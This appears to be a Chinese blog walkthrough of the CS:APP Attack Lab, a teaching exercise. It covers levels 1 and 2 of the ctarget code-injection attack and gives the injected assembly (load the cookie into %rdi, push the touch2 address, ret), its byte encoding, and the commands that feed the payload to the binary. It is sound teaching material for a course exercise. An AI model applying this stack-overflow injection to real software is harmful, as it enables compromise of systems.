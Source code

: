然后运行：

```bash
./hex2raw < p1.txt > p1
./ctarget -qi p1
```

运行成功了！

![1_level_1.png](https://s2.loli.net/2025/05/31/Y7grdLMQp2HxlDf.png)

我这里由于一开始没有使用`-qi`参数，而是仅仅使用`-q`，导致文件内容没有正确传入程序，debug了将近三个小时才发现问题所在。提醒我在使用前一定要仔细观察用法。

---

### Level 2

在第二关中，我们需要执行地址为`0x4017ec`的`touch2()`：

```c
void touch2(unsigned val) {
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

我们需要把我们的`cookie`作为第一个参数传入函数。回想起第三章的知识，`%rdi`寄存器就存放了函数的第一个参数。

我们知道，`ret`指令相当于`pop %rip`，因此我们可以自己编写一段代码，实现将`cookie`放入寄存器`%rdi`中，然后把`touch2()`的地址压入栈底，最后`return`，进入`touch2()`。可是，我们要如何做到能够执行我们自己编写的汇编代码呢？

我们只能运用40个字节之后溢出的8个字节来返回到这一地址。倘若溢出的8个字节正好指向的是我们`BUFFER_SIZE`的40个字节的首位，即栈顶，我们就能通过将前40个字节注入我们自己编写的汇编代码，从而实现跳转到我们自己的指令，最终跳转到`touch2()`函数，同时又带上了`cookie`信息。

我们的`cookie: 0x59b997fa` `touch2(): 0x4017ec`，因此有汇编代码放入`p2.s`：

```asm
movq $0x59b997fa, %rdi
pushq $0x4017ec
ret
```

利用附录B的字节表示生成工具：

```bash
gcc -c p2.s
objdump -d p2.o > p2.d
```

得到字节表示：

```bash
p2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	push   $0x4017ec
   c:	c3                   	ret    
```
